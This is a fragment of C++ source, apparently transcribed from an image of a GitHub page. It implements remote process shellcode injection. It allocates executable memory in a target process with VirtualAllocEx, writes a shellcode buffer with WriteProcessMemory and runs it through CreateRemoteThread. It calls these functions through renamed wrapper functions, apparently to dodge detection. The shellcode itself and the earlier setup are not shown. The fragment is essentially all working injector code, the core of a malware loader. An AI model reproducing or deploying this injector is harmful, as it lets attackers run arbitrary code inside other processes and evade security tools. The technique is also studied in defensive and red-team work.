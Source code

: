 ```c++
	}

	// std::cout << "[+] Executing VirtualAllocEx ..." << std::endl;
	LPVOID buffer = virtualAllocEx(hProcess, NULL, sizeof shellcode, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	if (buffer == NULL) {
		// std::cout << "[!] VirtualAllocEx Failed : " << GetLastError() << std::endl;
		return -1;
	}

	// std::cout << "[+] Executing WriteProcessMemory ..." << std::endl;
	SIZE_T bytesWritten;
	BOOL writeProcess = writeProcessMemory(
		hProcess,
		buffer,
		shellcode,
		sizeof shellcode,
		&bytesWritten
	);
	if (writeProcess == 0 || bytesWritten != sizeof(shellcode)) {
		// std::cout << "[!] WriteProcessMemory Failed : " << GetLastError() << std::endl;
		return -1;
	}

	// std::cout << "[+] Executing CreateRemoteThread ..." << std::endl;
	HANDLE hThread = createRemoteThread(
		hProcess,
		NULL,
		0,
		(LPTHREAD_START_ROUTINE)buffer,
		NULL,
		0,
		NULL
	);
	if (hThread == NULL) {
		// std::cout << "[!] CreateRemoteThread Failed : " << GetLastError() << std::endl;
		return -1;
	}

	// std::cout << "[+] Executing WaitForSingleObjectEx ..." << std::endl;
	waitForSingleObjectEx(hThread, INFINITE, FALSE);

	// std::cout << "[+] Executing CloseHandle ..." << std::endl;
	closeHandle(hProcess);

	std::cout << "Press <ENTER> to quit ...";
	getchar();

	return 1;
}
```
